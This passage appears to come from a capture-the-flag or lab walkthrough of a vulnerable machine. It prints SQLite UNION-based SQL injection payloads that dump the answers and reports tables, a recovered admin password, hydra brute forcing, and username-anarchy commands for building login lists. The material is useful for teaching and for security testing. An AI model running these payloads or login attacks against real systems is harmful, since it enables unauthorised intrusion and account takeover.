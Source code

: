 ![](https://cdn-images-1.medium.com/max/2160/1*rLGb41wHSAMoI_59qJ1e8w.png)

The password for the user **admin** is **denjanjade122566**. Try login it using SSH since 22 port is open on the machine.

![](https://cdn-images-1.medium.com/max/2000/1*SQYBwz9MS6U6_ryYsooPoQ.png)

But I was not able to login while trying multiple related usernames. Let’s enumerate the database again. We discovered other tables like sqlite_sequence, versions, users, info, reports, answers.

I was able to enumerate couple of usernames like **admin, jason, mike, thomas, keller** from tables **answers** and **reports.**

    " union select sql,null,null,null FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='answers'; -- -
    " union select group_concat(answer),group_concat(answered_by),null,null FROM answers; -- -
    
    " union select sql,null,null,null FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='reports'; -- -
    " union select group_concat(reporter_name),group_concat(description),null,null FROM reports; -- -

![](https://cdn-images-1.medium.com/max/2070/1*0v72r1K7aSANMO7cEnvPCQ.png)

Let’s create a list of username and perform brute force using hydra.

![](https://cdn-images-1.medium.com/max/2074/1*VNVWOZHMJnNdojEJsC5H3A.png)

Again no any valid usernames are found. But if we see the result of table **answers **closely, we can see that the answer was provided by Thomas Keller as an admin and I also knew that Thomas and Keller are not two different users. It is a first name and last name. So we might need some combinations of first name and last name suffix called [username anarchy](https://github.com/urbanadventurer/username-anarchy).

    git clone https://github.com/urbanadventurer/username-anarchy.git
    cd username-anarchy
    
    echo "Thomas Keller" > fullname
    ruby username-anarchy -i fullname
    
    # Result
    thomas
    thomaskeller
    thomas.keller
    thomaske
    thomkell
    thomask
    t.keller
    tkeller
    kthomas
    k.thomas
    kellert
    keller
    keller.t
    keller.thomas
    tk
